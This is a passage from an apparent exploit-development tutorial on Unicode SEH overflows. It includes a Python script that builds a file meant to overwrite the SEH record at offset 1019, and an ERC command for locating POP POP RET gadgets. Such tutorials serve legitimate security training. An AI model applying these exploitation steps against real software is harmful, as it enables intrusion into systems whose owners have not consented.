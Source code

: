 The output of the FindNRP command above displays that the SEH register is overwritten after 1019 characters in the malicious payload. As such we will now ensure that our tool output is correct by overwriting our SEH register with B’s and C’s. Firstly we will need to hit the restart button in order to restart the process and prepare it for another malicious payload. The following exploit code should produce an overwrite of B’s and C’s over the SEH register.
```
f = open("crash-3.txt", "wb")  
  
buf = b""  
buf += b"\x41" * 1019  
buf += b"\x42" * 2  
buf += b"\x43" * 2  
buf += b"\x44" * (5000 - len(buf))  
  
f.write(buf)  
f.close()
```

<p align="center"><img src="/images/basics-of-exploit-development-4-unicode-overflows/SEH-Overwrite-Unicode-2.PNG"/></p>    
<p align="center"><i>SEH Overwrite.</i></p>

As we can see the SEH register is overwritten with B’s and C’s as we expected it would be. Now in order to return us back to our exploit code we will need to find a POP, POP, RET instruction. For a full run down of how an SEH overflow works read the previous article in this series. In order to find a suitable pointer to a POP, POP, RET instruction set we will run the following command. As the character encoding is set as Unicode only Unicode compatible results will be returned.

**Command:**
```
ERC --SEH -ASLR -SafeSEH -Rebase -OSDLL -NXCompat
```

<p align="center"><img src="/images/basics-of-exploit-development-4-unicode-overflows/SEH-Output.PNG"/></p>    
<p align="center"><i>Output of the ERC --SEH command.</i></p>
